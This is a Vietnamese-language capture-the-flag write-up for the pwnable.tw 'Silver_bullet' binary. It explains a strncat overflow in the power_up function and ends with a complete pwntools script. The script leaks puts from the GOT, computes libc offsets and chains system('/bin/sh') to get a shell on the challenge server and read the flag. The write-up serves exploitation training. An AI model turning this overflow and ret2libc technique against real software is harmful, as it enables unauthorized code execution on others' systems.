


# pwnable.tw - Silver_bullet

# 1. Xem thông tin file

Ta sẽ dùng lệnh `file` để xem thông tin file challenge:
```
silver_bullet_patched: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter ./ld-2.23.so, for GNU/Linux 2.6.32, BuildID[sha1]=8c95d92edf8bf47b6c9c450e882b7142bf656a92, not stripped

```
Đây là file 32-bit không bị ẩn tên hàm. Kế đến, ta sẽ kiểm tra security của file:
```
Arch:     i386-32-little
RELRO:    Full RELRO
Stack:    No canary found
NX:       NX enabled
PIE:      No PIE (0x8047000)
RUNPATH:  b'.'
```

Tiếp đến đưa file vào ida-32bit, ở đây mình đã sửa lại tên một số hàm và biến để dễ quan sát luồng thực thi


# 2. Khai thác



Ở đây có 4 options cho ta lựa chọn

Do ở hàm power_up sau khi nhập lần cuối quá 48 ký tự sẽ không power_up được nữa 


Mình đã thử nhập quá xem sao

```
create(b"2")
power_up(b"a"*16)
power_up(b"b"*16)
power_up(b"c"*16)
power_up(b"c"*16)
```

Kết quả nhận được 


Ở đây mình đã chuyển từ dec sang hex `1667457823` = `0x6363631F` vậy là ta có thể over_write giá trị này.

Do câu lệnh `strncat(dest, s, 48 - *((_DWORD *)dest + 12))` của hàm `power_up` đã thực hiệu việc nối chuỗi đã khiến phần phía sau địa chỉ chuỗi trong stack 

bị ghi đè cũng là địa chỉ của v3 chính là `power`

Kế đến khi đã đủ `sức mạnh` thì cùng tiêu diệt quái vật thoi



Ở đây mình có thể thấy invalid addr tại địa chỉ trả về, mình đã sử dụng cyclic để tính toán và kiểm soát được địa chỉ trả về

Cộng thêm việc `PIE:      No PIE (0x8047000)` nên mình lợi dụng hàm puts leak libc, libc có chuỗi `/bin/sh` và cả hàm `system`

-> get_shell

# Full code:

```
#!/usr/bin/python3
from pwn import *

elf = context.binary = ELF("silver_bullet_patched")
libc = elf.libc

local = False 
if local:
    p = process("./silver_bullet_patched")
    gdb.attach(p,'''
    b*create_bullet+110
    c
    c
    ''')
else:
    p = remote('chall.pwnable.tw', 10103)

elf = context.binary = ELF('./silver_bullet_patched', checksec=False)

def create(data):
    p.sendlineafter(b"Your choice :", b"1")
    p.sendlineafter(b"Give me your description of bullet :", data)
    print("\n[*]Create: Done")

def power_up(data):
    p.sendlineafter(b"Your choice :", b"2")
    p.sendlineafter(b"Give me your another description of bullet :", data)
    print("\n[*]Power up: Done")

def kill():
    p.sendlineafter(b"Your choice :", b"3")

put_got = 0x804afdc
put_plt = 0x080484a8
beat = 0x08048733
main = 0x08048954

create(b"2")
power_up(b"a"*16)
power_up(b"b"*16)
power_up(b"c"*16)
power_up(b"d"*7 + p32(put_plt) + p32(main) + p32(put_got) )
kill()
kill()
p.recvuntil(b"Oh ! You win !!\n")
libc_base = int.from_bytes(p.recv(4),"little") - 389440
system = libc_base + 0x0003a940
binsh = libc_base + 0x158e8b
print("[+]Libc_base:    ", hex(libc_base))
print("[+]Libc_system:  ", hex(system))
print("[+]Libc_binsh:   ", hex(binsh))

create(b"2")
power_up(b"a"*16)
power_up(b"b"*16)
power_up(b"c"*16)
power_up(b"d"*7 + p32(system) + p32(main) + p32(binsh) )
kill()
kill()
if local: 
    p.sendline(b"id")
else:
    p.sendline(b"cd home/silver_bullet")
    p.sendline(b"cat flag")
p.interactive()

```


